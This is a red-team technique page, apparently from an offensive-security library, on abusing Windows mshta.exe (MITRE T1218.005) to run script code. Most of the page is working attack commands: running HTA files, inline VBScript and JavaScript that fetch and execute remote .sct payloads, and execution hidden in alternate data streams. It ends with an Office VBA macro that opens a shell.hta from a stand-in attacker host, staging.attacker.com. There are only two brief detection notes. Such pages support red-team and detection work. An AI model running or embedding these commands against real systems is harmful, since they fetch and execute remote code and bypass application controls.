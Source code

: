 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1218.005 - Mshta
## References
* MITRE ATT&CK -<br />[https://attack.mitre.org/techniques/T1218/005](https://attack.mitre.org/techniques/T1218/005)
* LOLBAS Project: Mshta.exe -<br />[https://lolbas-project.github.io/lolbas/Binaries/Mshta/](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
* Evi1cg's Blog: AppLocker Bypass Techniques-<br />[https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4](https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4)
* Oddvar Moe's Blog: AppLocker – Case study – How insecure is it really? – Part 2 -<br />[https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/)
* Oddvar Moe's Blog: Putting data in Alternate data streams and how to execute it -<br />[https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

## Overview

Used by Windows to execute html applications. (`.hta`)

**LOLBINs tags**

* Execute
* Alternate data streams

**LOLBIN Paths**

* `C:\Windows\System32\mshta.exe`
* `*C:\Windows\SysWOW64\mshta.exe`

LOLBIN Acknowledgements:

* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe

### TTP

**Execute**

**Method 1**

Opens the target `.HTA` and executes embedded JavaScript, JScript, or VBScript.

```cmd
mshta.exe evilfile.hta
```

* Usecase:Execute code
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

**Method 2**

Executes VBScript supplied as a command line argument.
```cmd
mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
```

* Usecase:Execute code
* Privileges required:User
* OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

**Method 3**

Executes JavaScript supplied as a command line argument.
```cmd
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
```

* Usecase:Execute code
* Privileges required:User
* OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

**Alternate data streams**

Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.

```cmd
mshta.exe "C:\ads\file.txt:file.hta"
```

* Usecase: Execute code hidden in alternate data stream
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)

### Detection
* `mshta.exe` executing raw or obfuscated script within the command-line
* Usage of HTA file

## Microsoft Office HTA Macro

~~~
Public Function Debugging() As Variant

    Set blogpage = CreateObject("Shell.Application")
    blogpage.Open ("\\staging.attacker.com\webdav\shell.hta")

End Function
~~~